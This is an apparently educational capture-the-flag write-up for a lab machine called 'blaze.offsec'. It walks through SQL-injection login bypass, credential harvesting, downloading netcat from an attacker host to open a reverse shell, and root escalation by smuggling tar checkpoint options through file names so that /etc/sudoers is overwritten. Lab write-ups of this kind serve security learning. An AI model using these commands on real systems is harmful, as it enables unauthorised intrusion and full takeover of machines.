 An explanation of how we get our initial foothold via auth bypass to harvest credentials and got us terminal access. Privilege escalation is related to the user able to run certain file as sudo.

# Enumeration

nmap -p- $ip -Pn -sT  -v -A --open -T 4 -oN nmap.txt

Got port 22, 80 and 9090.

## Explore Port 80

Browse the page, an amazing product awaits you =D the button is not function. We did a `dirsearch -u [http://$ip](http://$ip) -r -o dirsearch.txt`, found a `login.php` page. Go to the page, we discover the domain `blaze.offsec`, add the domain to `/etc/hosts` file, run again `dirsearch` with the domain, and browse the page using `[http://blaze.offsec/login.php](http://blaze.offsec/login.php,)`[,](http://blaze.offsec/login.php,) looks the same to me.

![](https://miro.medium.com/v2/resize:fit:700/1*S83vnx1InIKyl7mz3lbPhA.png)

login.php page

Try google “blaze by JDgodd” but nothing useful info return. Try some default passwords like admin:admin, admin:password but got no luck here.

## Interesting error message discovered

Next, we want to try if we can bypass the authentication. I try adding single quote ‘ to the username. It return MySQL error.

![](https://miro.medium.com/v2/resize:fit:420/1*cEOXC_qYwz7QZjAc6TMpdQ.png)

MySQL error

Great, we might be able to bypass the auth. We google “mysql login bypass seclist”, get the payload and try to enter in username.

Make sure to check seclists!!
![[Pasted image 20240102092907.png]]


](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt?source=post_page-----c95930e9523d--------------------------------)

It works ! we managed to bypass authentication and login to the dashboard.

## Harvest credential

From the dashboard, we got 2 credentials, james and cameron.

![](https://miro.medium.com/v2/resize:fit:700/1*orR65tvMLLnFIQwzVq2CJw.png)

Credential found

We then `echo '$TheEncodedPassword' | base64 -d > pass.txt` to decode the password. Now we got 2 credentials, we try to ssh to the remote machine with these credentials however return error as permission denied.

## Port 9090 Initial Foothold

Move on to port 9090, an ubuntu page, we manage to log in using james credentials. From the home page, we found a terminal page that allows us to execute commands, great!

![](https://miro.medium.com/v2/resize:fit:700/1*L6dZNGF0KcvNsk4n_qIeXA.png)

Terminal function found

We setup netcat listener on kali machine, then run `nc $kaliIP $port -e /bin/bash`, however, the netcat does not support -e function, totally fine. We upload our own nc to the target machine.

```c
#start simple http server at where nc locate at kali machine, usually at /usr/bin  
python3 -m http.server 80  
#at james terminal  
curl http://$kaliIP/nc -o /tmp/nc  
chmod +x /tmp/nc  
#start nc listener at kali  
nc -nlvp 80  
#go back james execute nc  
/tmp/nc $kaliIP 80 -e /bin/bash
```

![](https://miro.medium.com/v2/resize:fit:559/1*a18iyihs30A43pZGk9h7Rw.png)

Got our first flag =)

# Privilege Escalation

Once we get our first flag, check `sudo -l` (remember we got james password), we found we can run sudo for tar with ***(wildcard)** at the end.

![](https://miro.medium.com/v2/resize:fit:573/1*5TFoRumHSmoB2U2pO-xvjA.png)

sudo -l

This is interesting, by googling “sudo tar privilege escalation”, we found a medium article from

[Ben Folland](https://medium.com/u/d2de97a6005d?source=post_page-----c95930e9523d--------------------------------)

that showed a guide on how we can get root with tar and *. Also, GTFObin has a similar guide as well.

## Linux Privilege Escalation: Wildcards with tar

### I recently discovered a creative and unique Linux privilege escalation vector that exploits they way the wildcard…

medium.com



](https://medium.com/@cybenfolland/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa?source=post_page-----c95930e9523d--------------------------------)

[

## tar | GTFOBins

### It can be used to break out from restricted environments by spawning an interactive system shell. tar -cf /dev/null…

gtfobins.github.io

](https://gtfobins.github.io/gtfobins/tar/?source=post_page-----c95930e9523d--------------------------------)

> A quick explanation here,
> 
> `/usr/bin/tar -czvf /tmp/backup.tar.gz *` means compress all files into backup.tar.gz
> 
> `tar` has a feature where it can be instructed to run a command (`--checkpoint-action`) when it reaches a certain point in its process (`--checkpoint`). For example --checkpoint=1; --checkpoint-action=exec=/bin/sh
> 
> So, if we create 2 file, the first file name ‘--checkpoint=1’ , the second file name ‘--checkpoint-action=exec=sh payload.sh’ . When we execute the tar command, it will execute as `sudo /usr/bin/tar -czvf /tmp/backup.tar.gz a.txt b.txt --checkpoint=1 --checkpoint-action=exec=sh payload.sh`with root permission.

The reason we don’t use checkpoint-action=exec=/bin/sh is because of the special character / and the reason we need 2 file is because of space between file name if we only going to create 1 file.

The shell interprets spaces as delimiters between arguments and interprets the `/` character as a directory separator. When using `echo "" > filename`, if `filename` contains spaces without being quoted or if it contains `/`, it can lead to unexpected behaviors or errors.

So in short,

```c
#at target machine, create 2 files  
echo "" > '--checkpoint=1'  
echo "" > '--checkpoint-action=exec=sh payload.sh'  
#then create a payload.sh with below content, you can create on your kali machine and transfer to target machine.  
echo 'james ALL=(root) NOPASSWD: ALL' > /etc/sudoers  
chmod +x payload.sh  
#execute the tar  
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

After that, `sudo -l` to check if we run anything as root without password.

![](https://miro.medium.com/v2/resize:fit:471/1*SHlK8J3dFaZgEhKzwNFcJw.png)

Root!